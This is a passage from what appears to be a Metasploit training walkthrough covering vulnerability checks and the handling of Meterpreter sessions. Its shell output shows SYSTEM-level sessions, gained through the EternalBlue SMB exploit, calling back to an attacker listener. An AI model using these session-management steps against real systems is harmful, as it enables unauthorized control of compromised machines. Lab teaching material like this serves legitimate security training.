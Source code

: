 
This will return you the    context prompt from which you have run the exploit.

Some modules support the    `check` option. This will check if the target system is vulnerable without exploiting it.



**Sessions**
Once a vulnerability has been successfully exploited, a    session will be created. This is the communication channel established between the target system and Metasploit.



You can use the    `background` command to background the session prompt and go back to the msfconsole prompt.





​            Backgrounding sessions        

```shell-session
           meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/smb/ms17_010_eternalblue) > 

        
```



​    Alternatively, `CTRL+Z` can be used to background sessions.

The    `sessions` command can be used from the msfconsole prompt or any context to see the existing    sessions.



​            Listing active sessions        

```shell-session
           msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf5 exploit(windows/smb/ms17_010_eternalblue) > back
msf5 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf5 >
        
```

